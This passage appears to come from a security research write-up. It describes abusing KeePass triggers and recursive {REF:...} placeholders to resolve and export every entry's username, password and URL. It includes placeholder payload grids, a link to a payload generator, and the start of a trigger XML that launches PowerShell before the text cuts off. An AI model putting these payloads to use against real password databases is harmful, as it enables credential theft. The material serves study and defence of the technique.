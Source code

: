 Let's take a second to understand this, and assume that matching entry #1 has UUID *46C9B1FF..* and matching entry #2 has UUID *DCC8CF1F..* :

```
# resolving the UUID of entry #1
{REF:I@I:0} = 46C9B1FF..

# resolving the UUID of entry #2
{REF:I@I:0 -{REF:I@I:0}} = {REF:I@I:0 -46C9B1FF..} = DCC8CF1F1..
```

This works only because :

1. The resolution order is consistent between searches (`{REF:I@I:0}` will always match the same entry).
2. A recursive placeholder always compiles "deeper" elements first.

We can build a trigger that would Spr-compile and write the following placeholders in a file:

```
{REF:U@I:0}                 {REF:P@I:0}                 {REF:A@I:0}
{REF:U@I:0 -{REF:I@I 0}}    {REF:P@I:0 -{REF:I@I 0}}    {REF:A@I:0 -{REF:I@I:0}}
...                         ...                         ...
```

The next step would be to add another level of recursion with `{REF:U@I:0 -{REF:U@I:0 -{REF:I@I:0}}}` etc. I created a [dirty Python script](https://gist.github.com/d3lb3/fb6f5d82e47744f56117b350d94a6029) to generate recursive payloads.

To increase the probability of matching the whole database, we can add a second character match like so:

```
{REF:U@I:0}                 {REF:P@I:0}                     {REF:A@I:0}
{REF:U@I:1}                 {REF:P@I:1}                     {REF:A@I:1}
{REF:U@I:0 -{REF:I@I:0}}    {REF:P@I:0 -{REF:I@I:0}}        {REF:A@I:0 -{REF:I@I:0}}
{REF:U@I:1 -{REF:I@I:1}}    {REF:P@I:1 -{REF:I@I:1}}        {REF:A@I:1 -{REF:I@I:1}}
...                         ...                             ...
```

Let's test the resulting trigger against our sample database:

```xml
<Trigger>
	<Guid>cwlVj6cXjUaDVnvryDJkFw==</Guid>
	<Name>Recursive Export</Name>
	<TurnOffAfterAction>true</TurnOffAfterAction>
	<Events>
		<Event>
			<TypeGuid>5f8TBoW4QYm5BvaeKztApw==</TypeGuid>
			<Parameters>
				<Parameter>0</Parameter>
				<Parameter />
			</Parameters>
		</Event>
	</Events>
	<Conditions />
	<Actions>
		<Action>
			<TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
			<Parameters>
				<Parameter>PowerShell.exe</Parameter>
```